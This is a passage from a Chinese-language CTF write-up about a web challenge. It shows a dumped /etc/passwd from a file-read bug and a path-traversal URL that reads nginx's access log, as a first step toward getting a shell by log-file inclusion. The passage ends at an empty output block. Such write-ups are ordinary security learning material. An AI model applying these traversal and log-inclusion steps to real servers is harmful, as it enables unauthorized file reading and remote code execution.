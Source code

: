 得到回显

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false mysql:x:999:999::/home/mysql:
```

发现可以读取文件，但是似乎不能读源码<br>
同时网站存在另一个功能:curl<br>
但是发现curl是不会有回显的<br>
同时执行命令带出发现也不可行<br>
这时候想到日志文件包含拿shell的方法<br>
首先我触发了网页报错

```
http://ecbedb39ad3a4d4c9fc437bc175e8f6d55ecf72506af43a0.game.ichunqiu.com/index.
```

得到回显

```
nginx/1.10.3
```

于是我尝试nginx日志文件的默认位置

```
http://ecbedb39ad3a4d4c9fc437bc175e8f6d55ecf72506af43a0.game.ichunqiu.com/index.php?page=../../../../var/log/nginx/access.log
```

得到内容

```
```